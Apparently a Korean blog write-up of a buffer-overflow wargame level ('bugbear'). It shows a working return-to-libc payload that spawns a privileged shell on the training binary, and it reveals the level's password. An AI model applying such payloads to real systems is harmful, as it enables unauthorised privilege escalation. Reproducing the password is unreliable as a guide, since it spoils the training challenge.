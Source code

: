 ```yaml
---
title: "[LOB]Level13. bugbear"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


## keyword : RTL1

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack betrayed you!!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

분기문을 통해 RET 부분에 덮여씌워지는 주소 앞주소'\xbf'를 필터링 한다.

즉, '\xbf'로 시작하는 주소를 리턴 주소로 할 수 없다.

##### payload 시나리오 :

"A"*44+"&system()"+"A"*4+"&["/bin/sh"]

```sh
[darkknight@localhost darkknight]$ ldd bugbear
	libc.so.6 => /lib/libc.so.6 (0x40018000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
	
[darkknight@localhost darkknight]$ strings -tx /lib/libc.so.6 | grep "/bin/sh"
  e3ff9 /bin/sh
  e6587 /bin/sh
  e6595 /bin/sh
  e796a /bin/sh
  e81c7 /bin/sh
  e8778 /bin/sh
```

&system : 0x40058ae0

&"/bin/sh" : 0x400fbff9

```sh
[darkknight@localhost darkknight]$ ./bugbear `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@AAAA�@
bash$ my-pass
euid = 513
new divide
bash$ id
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
```



**bugbear / new divide**